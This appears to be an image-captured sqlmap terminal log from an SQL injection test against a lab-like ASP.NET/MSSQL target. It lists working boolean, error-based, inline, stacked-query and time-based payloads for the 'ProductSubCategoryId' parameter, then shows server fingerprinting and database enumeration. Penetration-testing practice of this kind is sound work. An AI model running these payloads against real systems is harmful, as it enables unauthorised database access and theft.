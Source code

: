 ```
[19:46:07] [WARNING] target URL content is not stable. sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] 
[19:46:08] [INFO] searching for dynamic content
[19:46:08] [INFO] dynamic content marked for removal (1 region)
[...]
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=1 AND 1298=1298

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=1 AND 1726 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(98)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (1726=1726) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(122)+CHAR(113)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(107)+CHAR(98)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (6760=6760) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(122)+CHAR(113)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=1;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=1 WAITFOR DELAY '0:0:5'
---
[19:46:37] [INFO] testing Microsoft SQL Server
[19:46:38] [INFO] confirming Microsoft SQL Server
[19:46:38] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2016
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2016
[19:46:38] [INFO] fetching database names
[19:46:38] [INFO] used SQL query returns 5 entries
[19:46:38] [INFO] retrieved: Injection
[19:46:38] [INFO] retrieved: master
[19:46:38] [INFO] retrieved: model
[19:46:38] [INFO] retrieved: msdb
[19:46:38] [INFO] retrieved: tempdb
available databases [5]:
[*] Injection
[*] master
[*] model
[*] msdb
[*] tempdb

[19:46:38] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 67 times
[19:46:38] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.104'

[*] shutting down at 19:46:38
```
